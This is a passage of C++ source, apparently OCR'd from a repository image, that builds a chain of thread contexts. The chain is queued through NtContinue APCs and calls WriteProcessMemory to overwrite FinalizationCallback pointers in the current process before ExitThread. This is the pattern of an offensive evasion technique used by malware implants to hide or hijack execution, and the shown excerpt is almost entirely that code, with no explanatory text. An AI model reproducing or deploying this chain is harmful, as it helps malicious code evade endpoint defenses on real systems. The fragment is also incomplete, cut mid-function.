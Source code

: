 ```cpp
    CtxFix[2].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((CtxFix[3]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[3].Rip = (DWORD64)WriteProcessMemory;
    CtxFix[3].Rcx = (DWORD64)(HANDLE)-1;
    CtxFix[3].Rdx = (DWORD64) & (callbackinfo[1]->FinalizationCallback);
    CtxFix[3].R8 = (DWORD64)ResumeThreadValue;
    CtxFix[3].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((CtxFix[4]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[4].Rip = (DWORD64)WriteProcessMemory;
    CtxFix[4].Rcx = (DWORD64)(HANDLE)-1;
    CtxFix[4].Rdx = (DWORD64) & (callbackinfo[2]->FinalizationCallback);
    CtxFix[4].R8 = (DWORD64)ResumeThreadValue;
    CtxFix[4].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((CtxFix[5]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[5].Rip = (DWORD64)WriteProcessMemory;
    CtxFix[5].Rcx = (DWORD64)(HANDLE)-1;
    CtxFix[5].Rdx = (DWORD64) & (callbackinfo[3]->FinalizationCallback);
    CtxFix[5].R8 = (DWORD64)ResumeThreadValue;
    CtxFix[5].R9 = (DWORD64)sizeof(PVOID);

    *(ULONG_PTR*)((CtxFix[6]).Rsp) = (DWORD64)NtTestAlertAddress;
    CtxFix[6].Rip = (DWORD64)WriteProcessMemory;
    CtxFix[6].Rcx = (DWORD64)(HANDLE)-1;
    CtxFix[6].Rdx = (DWORD64) & (callbackinfo[4]->FinalizationCallback);
    CtxFix[6].R8 = (DWORD64)ResumeThreadValue;
    CtxFix[6].R9 = (DWORD64)sizeof(PVOID);

    CtxFix[7].Rip = (DWORD64)(ExitThread);
    CtxFix[7].Rcx = (DWORD64)0x00;

    for (int i = 0; i < 8; i++) {
        if (!NT_SUCCESS(Status = NtQueueApcThread(ThreadFix, (PPS_APC_ROUTINE)NtContinueAddress, &CtxFix[i], FALSE, NULL))) {
            return -1;
        }
    }

    if (!NT_SUCCESS(Status = NtAlertResumeThread(ThreadFix, NULL))) {
        return -1;
    }

    /*-----------------------------------------*/

    apcThreads[0] = Thread;
    apcThreads[1] = ThreadFix;
    return 0;
}

```
